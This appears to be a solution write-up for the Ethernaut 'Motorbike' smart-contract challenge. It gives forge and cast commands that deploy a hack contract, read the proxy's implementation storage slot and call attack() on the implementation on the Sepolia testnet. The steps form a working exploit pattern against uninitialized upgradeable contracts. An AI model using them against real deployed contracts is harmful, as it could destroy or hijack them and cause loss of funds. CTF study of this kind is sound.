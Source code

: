 # Motorbike Solution

Deploy `MotorbikeHack`:

```
forge create MotorbikeHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

Retrieve the `implementationAddress`:

```
cast storage `ìnstanceAddress` 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc --rpc-url $SEPOLIA_RPC_URL
```

Truncate the first 24 zeros and call the `attack()` function:

```
cast send `motorbikeHackAddress` "attack(address)" `implementationAddress` --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

